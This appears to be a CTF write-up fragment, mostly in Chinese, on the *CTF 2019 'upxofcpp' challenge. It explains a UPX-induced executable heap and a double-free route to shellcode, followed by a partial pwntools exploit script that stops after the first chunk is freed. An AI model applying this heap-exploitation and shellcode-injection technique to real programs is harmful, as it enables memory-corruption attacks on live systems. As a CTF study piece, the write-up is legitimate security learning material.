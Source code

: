 

特定版本 + 特定作業系統的 UPX 會讓 heap 變得**可執行 (no NX)**，但是我 local 實際執行 heap 並不會可執行 (環境必須要是 ubuntu16.04 + upx 3.92，參考 [issue](https://github.com/upx/upx/issues/81))。此題參考 [balsn 的 writeup](https://balsn.tw/ctf_writeup/20190427-*ctf/#upxofcpp)，原本有發現 **double free 的問題**，但是沒辦法好好地控制 function table，而 balsn 的解法是透過 function table 以 fastbin 的 fd 一步步找到 function code，而 function pointer 最後會指向第一個 chunk 的末 8 bytes，就可以執行 shellcode:

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

# r = process('./U', env={"LD_PRELOAD": "./libc-2.23.so"})
r = process('./U', env={"LD_PRELOAD": "./libc-2.23.so"}, aslr=False)
# r = remote('localhost', 9999)
# gdb.attach(r, """
# # remove_1670
# # b *0x5555555556d0
# # b *0x5555555556c0
# # b *0x555555769c50
# """)

def add(idx, size):
    r.sendlineafter('choice:', '1')
    r.sendlineafter('Index:', str(idx))
    r.sendlineafter('Size:', str(size))

def show(idx):
    r.sendlineafter('choice:', '4')
    r.sendlineafter('index:', str(idx))

def remove(idx):
    r.sendlineafter('choice:', '2')
    r.sendlineafter('index:', str(idx))

info(f"heap_from: {hex(0x555555769c10)}")

payload = asm("xchg rsi, rax ; push rax ; pop rdi ; syscall").ljust(8, b'\x00')
print(payload)
print(hex((u32(payload[:4]))))
print(hex((u32(payload[4:]))))

add(3, 6)
for _ in range(4):
    r.sendline(str(0x33333333))
r.sendline(str(u32(payload[:4])))
r.sendline(str(u32(payload[4:])))

add(0, 10)
for _ in range(10):
    r.sendline(str(0x44444444))

add(1, 10)
for _ in range(10):
    r.sendline(str(0x55555555))

add(2, 10)
for _ in range(10):
    r.sendline(str(0x66666666))

remove(0)
```